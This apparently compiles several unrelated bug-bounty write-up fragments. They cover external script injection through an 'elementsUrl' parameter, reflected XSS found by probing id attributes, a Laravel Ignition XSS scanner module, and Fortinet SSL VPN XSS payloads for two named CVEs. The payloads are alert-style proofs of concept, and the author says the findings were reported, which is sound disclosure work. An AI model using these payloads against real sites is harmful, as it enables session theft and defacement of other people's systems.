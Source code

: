 # |||||||||||||||||||||||||||||||||||||||||||||||||||||


i get this endpoint by using [waymore](https://github.com/xnl-h4ck3r/waymore) + [katana](https://github.com/projectdiscovery/katana), in results i see endpoint that contain this interested parameter `elementsUrl` i try in it my burp collaborator then i see that i received DNS & HTTP requests to this endpoints

**/styles.css**  
**/deployment/env/redacted.config.js**

![](https://miro.medium.com/v2/resize:fit:700/1*RNW2tkyLuQM3vzDt1yeazg.jpeg)

the requests commes just when i browse the url from my browser that’s mean there is no ssrf then i try to read source of the page and i see some interested js codes

![](https://miro.medium.com/v2/resize:fit:700/1*iDO8kwNsoa1KZOcIujnzMA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*CeO-w1Ql22L32J8BY3KnEQ.png)

i see that the page import js and css from external endpoint

i go to my server and i created two endpoints

**styles.css** :

body::before {  
  content: "HELLO FROM MCHKLT";  
  color: red;  
  font-size: 24px;  
  font-weight: bold;  
  display: block;  
  text-align: center;  
  margin-top: 20px;  
}

**/deployment/env/redacted.config.js** :

document.title = "HELLO FROM MCHKLT";  
alert(document.domain);

after adding my website to the vulnerable endpoint was like

`[http://target/v2/sso.php?env=redacted&elementsUrl=https://mchklt.server/](http://target/v2/sso.php?env=redacted&elementsUrl=https%3A%2F%2Fmchklt.server%2F)`

the site gonna import css and js from malicious endpoint that created by me

then boom

# ||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||

Inspect the source code of this page for get “id” attributes.

![](https://miro.medium.com/v2/resize:fit:657/1*51F0KuwLJMwEHMU8OP_ZJQ.jpeg)

Testing them as GET parameters, like adding “helloworld” to the URL, can reveal reflected input in the error message div — a potential XSS vulnerability.

![](https://miro.medium.com/v2/resize:fit:700/1*swS2B1mWvD5UdXoopY54qQ.jpeg)

then i try simple xss payload and it works good

![](https://miro.medium.com/v2/resize:fit:700/1*1WZF6sdHNwtvH9nXiPdJ1Q.png)

by allah bless and this trick i got a valid rxss:
# |||||||||||||||||||||||||||||||||||||||||||||||||||||


# What is the “Laravel Ignition — Cross-Site Scripting” module?

The “Laravel Ignition — Cross-Site Scripting” module is designed to detect a cross-site scripting vulnerability in Laravel Ignition when debug mode is enabled. Laravel Ignition is a debugging dashboard specifically built for Laravel applications. This module focuses on identifying and reporting the presence of a high-severity cross-site scripting vulnerability in Laravel Ignition.

![](https://miro.medium.com/v2/resize:fit:650/1*Q_HS0AgKCrbYBwK7thLlyQ.png)

# |||||||||||||||||||||||||||||||||||||||||||||||||||||

During enumeration i noticed that **Fortinet SSL VPN web portal** is running on the affected url.

![](https://miro.medium.com/v2/resize:fit:700/0*O3NHQj5-_LfbCOPB.png)

Fortinet-FortiGate

Then, Manually browsed the url and guessed from the url parameter looks like a **Fortinet SSL VPN web portal** in which most of the web content are removed to identify it easily.

![](https://miro.medium.com/v2/resize:fit:700/0*soKOSQlNIQaFiYvW.png)

Fortinet SSL web portal

In further enumeration and looked for known vulnerabilities which can be used to exploit this Fortinet SSL VPN web portal, I identified that this web portal is vulnerable to **CVE-2017–14186** and **CVE-2018–13380** in multiple parameters.

Then i tried to trigger the XSS in the affected URL against the above mentioned **CVEs** and it was successful.

# 1st Param:

https://<target.com>/remote/loginredir?redir=javascript:alert(document.domain)

**Payload:** **javascript:alert(document.domain)**

![](https://miro.medium.com/v2/resize:fit:700/0*MKbnkyXzlmdQq5oH.png)

document.domain

# 2nd Param:

https://<target.com>/message?title=x&msg=%26%23%3Csvg/onload=alert(“XSS_Triggered”)  
%3E%3B

**Payload: %26%23%3Csvg/onload=alert(“XSS_Triggered”)  
%3E%3B ==> _&#<svg/onload=alert(“XSS_Triggered”)  
>;_**

![](https://miro.medium.com/v2/resize:fit:700/0*4ItGGtqUCXIdakdn.png)

Xss_Triggered

# 3rd Param:

https://<target.com>/remote/error?errmsg=**ABABAB — %3E%3Cscript%3Ealert(“XSS_Triggered”)%3C/script%3E** ==> **ABABAB-><script>alert(“XSS_Triggered”)</script>**

**Payload: ABABAB-><script>alert(“XSS_Triggered”)</script>**

![](https://miro.medium.com/v2/resize:fit:700/0*rzDsM6ntYo9WkdgB.png)

Xss_Triggered

So that’s the way i find XSS and reported it to the Team.
# |||||||||||||||||||||||||||||||||||||||||||||||||||||||
